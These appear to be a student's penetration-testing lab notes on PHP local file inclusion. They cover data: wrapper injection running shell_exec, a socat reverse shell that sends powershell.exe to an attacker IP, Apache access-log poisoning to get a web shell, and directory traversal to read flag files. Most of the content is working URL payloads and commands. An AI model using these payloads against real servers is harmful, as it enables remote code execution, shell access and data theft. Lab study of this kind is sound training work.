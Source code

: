 
# PHP wrappers
We can make use of PHP wrappers to exploit directory traversal and LFI vulnerabilities - this gives us additional flexibility when attempting to inject PHP code. Instead of passing the path to a local file, we may be able to wrap and inject our PHP code directly into the URL as plaintext.

**Data wrapper**
The data wrapper starts with `data:` followed by the type data. In this case, we will use `text/plain` for plaintext, followed by a comma to make the start of our **contents**.
```bash
http://<WEB-SERVER>/menu.php?file=data:text/plain,hello world
```

This will render our text - `hello world`, directly on the webpage. The application treated the data wrapper as if it was a file, and included it onto the page.

We can now try to replace `hello world` with PHP code to see if it executes.
```bash
http://<WEB-SERVER>/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

This allows us to exploit LFI without manipulating any local files as the PHP code is executed server-side.
***
# Topical Exercises

## Local File Inclusion
**Reverse Shell** using **socat**
On Kali:
`socat TCP-L:5566 -`

On browser:
`192.168.209.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=socat TCP:192.168.119.209:5566 EXEC:powershell.exe,pipes`

![[Pasted image 20221219190630.png]]

3.  On target VM #1 you identified a page that has a new vulnerability. Can you use this vulnerability to determine the users of this system and then leak some sensitive information (_flag.txt_) from the home directory of one of these users?.
	1. Identified directory traversal vulnerability
		1. ![[Pasted image 20221219191710.png]]
	2. Enumerate through the user's home directories to find flag.txt
		1. ![[Pasted image 20221219191946.png]]
4.  This updated Taco Truck menu page suffers from the same File Inclusion vulnerability as the first menu website, but you no longer can use other files (like _/etc/passwd_) to determine the flag's file name. Instead, on VM #2 find and pollute the log file for this system to gain a web-based shell. Use that web shell to then list the files in the main web directory to both identify and read the flag.
	1. Identified web server log files at `/var/log/apache2/access.log`
	2. Used `nc` to contaminate the log files
		1. ![[Pasted image 20221219203617.png]]
	3. Used the contaminated log files to run command to list files within the directory
		1. `http://192.168.209.52/menu.php?file=../../../var/log/apache2/access.log&cmd=ls`
		2. ![[Pasted image 20221219203720.png]]
	4. Use the contaminated log files to run command to view contents of flag file
		1. `http://192.168.209.52/menu.php?file=../../../var/log/apache2/access.log&cmd=cat%20flag_kPouhBJvGLrhLy3spjEZBBRF`
		2. ![[Pasted image 20221219203800.png]]